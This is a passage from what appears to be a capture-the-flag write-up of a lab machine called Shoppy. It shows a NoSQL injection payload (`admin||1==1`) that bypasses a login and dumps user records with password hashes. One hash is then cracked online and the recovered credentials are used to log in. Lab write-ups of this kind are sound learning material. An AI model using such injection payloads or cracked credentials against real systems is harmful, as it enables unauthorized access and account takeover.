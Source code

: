And export the download disclose some sensitive data such as the user id and the password

```json
[
	{
			"_id":"62db0e93d6d6a999a66ee67a",
			"username":"admin",
			"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	}
]
```

Let’s see if we can get more or other users. we tried with the same payload we used to bypass the login `admin||1==1` 

```json
[
	{
			"_id":"62db0e93d6d6a999a66ee67a",
			"username":"admin",
			"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	},
	{
			"_id":"62db0e93d6d6a999a66ee67b",
			"username":"josh",
			"password":"6ebcea65320589ca4f2f1ce039975995"
	}
]
```

Finally we got another user named josh and his hashed password

Let’s crack these hashes using [crackstation.net](https://crackstation.net/)! 

![Untitled](/Assets/Pictures/Shoppy/Untitled%207.png)

Only josh’s password was cracked at this point

Now we can use those creds to log into the subdomain we found earlier

# User

Here we logged in using josh’s credentials and we have one foot on the door 😀
